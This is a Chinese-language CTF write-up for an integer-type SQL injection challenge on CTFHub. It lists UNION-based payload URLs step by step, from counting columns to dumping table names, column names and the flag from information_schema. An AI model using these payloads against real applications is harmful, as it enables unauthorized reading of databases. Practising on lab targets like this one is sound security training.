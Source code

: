 #### 第一步 判断注入点

由于题名说明了整数型，所以这里直接跳过


#### 第二步 判断字段数

![1686839353176](image/整数型注入/1686839353176.png)

```sql
http://challenge-1cdb832102ec35fd.sandbox.ctfhub.com:10800/?id=1 order by 2
//判断字段数
```



#### 第三步 判断回显点

![1686839427044](image/整数型注入/1686839427044.png)

```sql
http://challenge-1cdb832102ec35fd.sandbox.ctfhub.com:10800/?id=1 union select 1,2
//判断回显点
```

![1686839489753](https://file+.vscode-resource.vscode-cdn.net/c%3A/Users/XM/Documents/GitHub/Security/CTFHub/Web/SQL%E6%B3%A8%E5%85%A5/image/%E6%95%B4%E6%95%B0%E5%9E%8B%E6%B3%A8%E5%85%A5/1686839489753.png)

#### 第四步 查询数据库名

```sql
http://challenge-1cdb832102ec35fd.sandbox.ctfhub.com:10800/?id=-1 union select 1,database()
//查询数据库名
```


![1686839571818](image/整数型注入/1686839571818.png)


#### 第五步 查询表名

```sql
http://challengecdb832102ec35fd.sandbox.ctfhub.com:10800/?id=-1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()
//查询该库内所有的表名    group_concat 显示所有
```

![1686839669222](image/整数型注入/1686839669222.png)


#### 第六步 查询字段

```sql
http://challenge-1cdb832102ec35fd.sandbox.ctfhub.com:10800/?id=-1 union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag'
//查询flag表内的所有字段
```

![1686839742801](image/整数型注入/1686839742801.png)

#### 第七步 查询字段内容

```sql
http://challenge-1cdb832102ec35fd.sandbox.ctfhub.com:10800/?id=-1 union select 1,group_concat(flag) from flag
//查询flag字段内的内容
```

![1686839771903](image/整数型注入/1686839771903.png)

